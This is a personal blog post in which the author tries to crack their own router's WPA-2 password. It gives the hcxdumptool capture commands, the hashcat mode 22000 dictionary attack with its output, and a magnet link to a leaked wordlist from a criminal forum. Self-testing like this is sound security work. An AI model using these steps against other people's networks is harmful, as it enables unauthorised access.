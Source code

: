 ```yaml
---
title: "Wifi Hacking"
date: 2022-07-12T16:30:43+01:00
tags:
    - Hacking
category: 
    - blog
keywords:
    - Hacking
    - Wifi
    - Security
---
```



## Prelude

Everywhere online, i have heard that wifi was insecure.

Posts talking about WEP and WPA being insecure. WPA-2 being better but still flawed.
I have decided to try and hack my own wifi router to see whether it really is insecure

### Setup

I am using the tp-link archer VR600 v2 as my router with WPA-2 wifi encryption.
I'll be executing my attack from my Arch Linux Laptop

## Hacking my own wifi

After looking around online, I've discovered the hashcat [cracking wpawpa2 wiki article](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
and I'll be following along as a guide.

As I went along, I worked on a script for hacking my wifi to allow for easy re-execution

### Disabling wifi and and enabling the wifi snooper

```bash
#!/usr/bin/env bash

# Disable wifi
sudo systemctl stop wpa_supplicant
# start monitor tool
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15
# Start wifi
sudo systemctl start wpa_supplicant
```

Enabling wifi and scanning for packets was quite simple.
All you had to do, is install `hcxdumptool` and run the aforementioned commands.
It took roughly 10-15 mins till a `PMKID`or `EAPOL MESSAGE` packet was detected on the network

once the a packet has been found, you can extract the hash of your wpa2 wifi password.

```bash
# Convert traffic
hcxpcapngtool -o hash.hc22000 dumpfile.pcapng
```

The hash is a `WPA-PBKDF2-PMKID+EAPOL` according to the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

This hash would be vunrable to a veriety of different attack methods:

- Dictionary attack
- Brute-Force attack
- Rule-based attack

I will be attempting a dictionary attack as it would execute in the fastest time

### hashcracking attempt 1

After installing `hashcat` and `opencl` in accordance with [the arch wiki](https://wiki.archlinux.org/title/GPGPU)
I started my first attempt with cracking the hash.

I downloaded a simple [wordlist](https://wpa-sec.stanev.org/dict/cracked.txt.gz) and attempted my first crack
Unfortunatly, I immediately came across an error.

```bash
$ hashcat -m 22000 hash.hc22000 cracked.txt.gz

resulted in this error;
clBuildProgram(): 
    CL_OUT_OF_HOST_MEMORY * Device #1: Kernel /usr/share/hashcat/OpenCL/shared.cl build failed.
```

After an hour of frantic googling online, i finally decided to restart my system and it immediately worked. :grimacing:

```bash
$ hashcat
hashcat (v6.2.5) starting

...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

...

Dictionary cache built:
* Filename..: ./cracked.txt.gz
* Passwords.: 368163
* Bytes.....: 3992189
* Keyspace..: 368163
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.hc22000
Time.Started.....: Tue Jul 12 18:20:18 2022 (9 secs)
Time.Estimated...: Tue Jul 12 18:20:27 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./cracked.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    42026 H/s (0.48ms) @ Accel:16 Loops:32 Thr:32 Vec:1
Recovered........: 0/1 (0.00%) Digests
Progress.........: 368163/368163 (100.00%)
Rejected.........: 0/368163 (0.00%)
Restore.Point....: 368163/368163 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: kunanesenanuk -> leprechaun6
Hardware.Mon.#1..: N/A

...
```

Sadly this basic dictionary attack has failed. We ran though every word in the wordlsit and not a single word matched our password hash.
This suggests that a complicated password would be more secure than a simple password such as once which is on this relatively short wordlist.

### hashcracking attempt 2

After the unsuccessful dictionary attack, i decided to get a bigger and better wordlist.
I went with the [rockyou2021.txt from kys234 on RaidForums](magnet:?xt=urn:btih:JEQMEEFTBXT35RJ3GUTGXU7HP3HBU5P6&dn=rockyou2021.txt%20dictionary%20from%20kys234%20on%20RaidForums&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A6969%2Fannounce).
This is a massive overkill wordlist and after waiting hours for the download+decompressing.

Once finished, the wordlist was around 92GB and roughly 8 billion words long.

Rather than wait for a hashcat to go though the entire wordlist, i grep-ed the wordlist for my wifi password.
After 3 mins, the command resulted in nothing. This seams to show that my wifi password is secure.

## Conclusion

It seams to me that WPA-2 isnt actually as insecure as it would people online would lead you to believe.
As long as you have a secure enough password, it shouldnt be a simple processs hacking into someones WPA-2 wifi network.

Of course, ive only explored one wifi hacking method so far and im aware there are plenty of other methods
